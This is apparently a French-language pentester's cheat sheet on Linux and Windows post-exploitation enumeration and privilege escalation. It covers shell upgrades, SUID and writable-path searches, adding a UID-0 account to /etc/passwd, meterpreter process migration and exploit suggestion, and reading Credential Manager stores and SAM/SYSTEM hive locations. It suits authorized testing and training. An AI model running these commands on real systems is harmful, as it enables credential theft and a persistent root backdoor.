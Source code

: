 # Enumération sous Linux

## Shell ergonomique
Shell de base :
```bash
$ python -c "import pty;pty.spawn('/bin/sh')"
```
Shell full interactif :
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
# faire un Ctrl + Z
$ stty raw -echo
$ fg
```

### Voir les droits de l'utilisateur courant 
```bash
$ sudo -l
```
Si nous avons le droit d'executer un binaire avec les droits roots, regarder sur GTFOBin :
https://gtfobins.github.io/

### Trouver des fichiers avec la permission SUID ou SGID
```bash
$ find / -perm -g=s -type f 2>/dev/null
$ find / -perm -u=s -type f 2>/dev/null
```

### Trouver des dossiers avec le droit d'écrire ou d'executer
```bash
$ find / -writable -type d 2>/dev/null
$ find / -perm -o w -type d 2>/dev/null
$ find / -perm -o x -type d 2>/dev/null
``` 

### Lister les processus qui tournent
```bash
$ ps aux
```

### Lister les port ouverts
```bash
$ netstat -anop
```

### Créer un utilisateur
Faire un user dans /etc/passwd, sachant que le format est : **{username}:{resultatcommandecidessous}:0:0:root:/bin/bash**
```bash
$ openssl passwd -1 -salt {username} {password}
```

### Binaire pour énumération :
Avec LinEnum :</br>
https://github.com/rebootuser/LinEnum</br>
Avec LinPeas :</br>
lien</br>
Avec Linux-Priv-Checker :</br>
https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123

### DirtyCow (suivant la version du linux)
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

### Kernel exploits (suivant la version du noyau)
https://github.com/xairy/kernel-exploits
https://github.com/SecWiki/linux-kernel-exploits

### Checker si y'a moyen de faire une escalation
https://github.com/pentestmonkey/unix-privesc-check

### Linux privilege escalation guide
http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

# Enumération sous windows
###Privilège escalation :
## Checker les logiciels et si des creds sont dedans (ancien cred ou d'actualité (password reuse))
## Utiliser sysinfo de meterpreter pour les infos
## Penser a migrer le processus en 64 bits si il est en 32 (ou simplement pour la discrétin tmtc)
meterpreter > sysinfo
meterpreter > ps
meterpreter > migrate {PID}

## On tente de voir les différents exploits dispo, sous meterpreter 
meterpreter > run post/multi/recon/local_exploit_suggester

## Living Off the Land (LOLBINS)
https://github.com/LOLBAS-Project/LOLBAS

## Enum de base 
> systeminfo				= What is the OS and architecture ?
> whoami				= Qui suis-je ?
> whoami /priv				= Mes privilèges ?
> qwinsta				= Quel autre utilisateur est connecté ?
> net localgroup			= Quels sont les groupes sur le système ?
> net localgroup Administrators		= Qui appartient au groupe Administrators ?
--- Quelques choses d'intéréssant dans le credential Manager ?
> cmdkey /list
> dir C:\Users\username\AppData\Local\Microsoft\Credentials\
> dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
> Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
> Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
--- 
--- On a accès à la base SAM et aux fichiers system ?
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
---
--- Quels sont les logiciels installés ?
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE
Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name*
---
--- Est-ce que des dossiers ont des permissions trop larges ?
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}} 
---
--- On peut upload accesschk (de Sysinternals) pour checker les fichiers et dossiers dispo en écriture
accesschk.exe -qwsu "Everyone" *
accesschk.exe -qwsu "Authenticated Users" *
accesschk.exe -qwsu "Users" *
---
--- Quels sont les processus/services en cours d'utilisation ?
tasklist /svc
tasklist /v
net start
sc query
---
--- Quels sont les taches planifiés ?
schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
---
--- Qu'est-ce qui est lancé au démarrage ?
wmic startup get caption,command
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\All Users\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\$env:USERNAME\Start Menu\Programs\Startup"
---

[[[NETWORKING]]]